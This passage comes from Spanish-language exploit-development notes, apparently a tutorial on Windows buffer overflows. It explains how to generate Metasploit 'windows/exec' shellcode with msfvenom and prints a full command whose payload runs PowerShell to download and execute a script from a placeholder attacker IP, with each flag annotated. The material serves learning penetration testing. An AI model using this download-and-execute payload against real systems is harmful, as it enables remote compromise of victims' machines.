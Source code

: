     Por otro lado, **`fgets()`**, **`memcpy()`** y **`strncpy()`** tienen menos probabilidades de ser vulnerables a Buffer Overflow, ya que permiten especificar tamaños máximos y operan de manera más predecible en términos de límites.
    
    En general, es importante siempre verificar y controlar adecuadamente los límites de los buffers en todas las operaciones de manipulación de cadenas y entrada/salida para evitar posibles vulnerabilidades de Buffer Overflow.

# Modificación del Shellcode para controlar el comando a ejecutar

    
También es posible utilizar payloads como “**windows/exec**” para cargar directamente el comando que se desea ejecutar en la variable **CMD** del payload. Esto permite crear un nuevo shellcode que, una vez interpretado, ejecutará directamente la instrucción deseada.
    
El payload “**windows/exec**” es un payload de Metasploit que permite ejecutar un comando arbitrario en la máquina objetivo. Este payload requiere que se especifique el comando a ejecutar a través de la variable CMD en el payload. Al generar el shellcode con msfvenom, se puede utilizar el parámetro “-p windows/exec CMD=<comando>” para especificar el comando que se desea ejecutar.
    
Una vez generado el shellcode con el comando deseado, se puede utilizar la técnica de buffer overflow para sobrescribir el registro EIP y hacer que el flujo del programa entre en el shellcode. Al interpretar el shellcode, se ejecutará directamente el comando especificado en la variable CMD.
    

## Crear el shellcode con comando arbitrario

Al crear el shellcode es posible controlar el comando que se está ejecutando, para esto se usa el siguiente comando en msfvenom para generar un shellcode con un comando en .

```bash
msfvenom -p windows/exec CMD="powershell 
IEX(New-Object Net.WebClient).downloadString('http://
<IPAtacante>/PS.ps1')" --platform windows 
-a x86 -b '\x00\x0a\x0d' -f c EXITFUNC=thread

-p # Indica el tipo de payload, se ingresa el SO y 
# cómo se proporcionará la shell. El payload 
# "windows/exec" hará que se cargue el comando 
# que se especifique en la variable "CMD"

CMD= # Indica el comando que se ejecutará al cargar 
# el shellcode

--platform <OS> -a <x64/x86> # Indica la plataforma a la 
# que será insertado el payload y la arquitectura si es 
# 64 o 32 bits.

-f # Indica el formato que tomará el shellcode

-b # Indica los badchars a eliminar en el shellcode

EXITFUNC=thread # Sirve para crear un subproceso por el 
# cual se colgará la sesión con la máquina víctima.
# Sin esto, al terminar la sesión en la víctima, el 
# proceso crasheará y el servicio ya no estará disponible
```
